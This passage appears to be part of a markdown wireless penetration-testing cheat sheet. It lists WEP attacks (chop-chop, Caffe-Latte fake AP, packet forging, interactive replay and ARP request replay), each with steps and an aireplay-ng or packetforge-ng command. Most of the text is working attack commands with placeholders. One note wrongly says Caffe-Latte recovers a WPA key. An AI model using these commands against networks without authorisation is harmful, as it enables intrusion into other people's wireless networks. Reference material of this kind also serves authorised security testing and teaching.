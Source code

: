 #### 7.1. Chop-Chop attack

1) set interface in monitor more
2) scan for APs using WEP encryption
3) attack
```
# aireplay-ng wlan0 --chopchop -h <SRC_STATION> -b <BSSID>
```
Idea: decrypt single packet and obtain keystream in WEP networks


#### 7.2. Caffe-Latte attack (fake AP)

1) set interface in monitor more
2) scan for APs using WEP encryption
3) attack
```
# aireplay-ng --caffe-latte <SRC_STATION> -b <BSSID>
```
Notes:
- allows recovery of WPA key even if not within AP's range
- impersonate an AP and reply to connection requests from any client


#### 7.3. Generate packets w/o knowing the network key

1) enable monitoring mode
2) sniff for APs using WEP encryption
3) attack
```
# aireplay-ng wlan0 -5 -h <SRC_STATION> -b <BSSID>
# packetforge-ng -0 -a <BSSID> -h <SRC_STATION> -k <SRC_IP> -l <DST_IP> -y fragment.xor -w arp_req
```
Note: `packetforge-ng` (tool to create packets w/o knowing WEP key)


#### 7.4. Interactive packet replay

1) set interface in monitor more
2) scan for APs using WEP encryption
3) attack
```
# aireplay-ng wlan0 --interactive -t 1 -b <BSSID> -h <SRC_STATION> -c FF:FF:FF:FF:FF:FF -p 0841
```
Notes:
- replay one packet any number of times => generate traffic and new IVs
- 0841 = set `Frame Control Field / FCTRL`
- remember to increase the no. of transmitted packets manually


#### 7.5. ARP request replay
```
# aireplay-ng wlan0 --arpreplay -b <BSSID> -h <SRC_STATION>
```
